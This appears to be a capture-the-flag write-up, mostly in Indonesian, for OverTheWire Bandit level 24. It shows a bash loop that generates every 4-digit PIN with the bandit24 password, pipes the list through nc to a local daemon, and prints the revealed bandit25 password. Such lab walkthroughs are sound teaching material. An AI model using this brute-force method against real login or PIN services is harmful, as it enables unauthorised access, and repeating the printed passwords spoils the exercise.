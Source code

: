 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solusi
password didapatkan ketika kita berhasil memasukkan pin yang valid. permasalahan kita tidak tau pin berapa yang valid.\
kita bisa lakukan bruteforce untuk level ini\
berikut script
```
bandit24@bandit:/tmp/bandi25$ cat ban25.sh
#!/bin/bash
for i in {0000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```
lalu kita simpan menjadi ***txt file***
```
bandit24@bandit:/tmp/bandi25$ ./ban25.sh > bf.txt
bandit24@bandit:/tmp/bandi25$ ls
ban25.sh  bf.txt
```
lalu kita lakukan pipe 
```
bandit24@bandit:/tmp/solu24$ cat bf.txt | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.
.
.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
didapatkan password untuk masuk ke bandit25
<details>
<summary>Password</summary>
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
</details>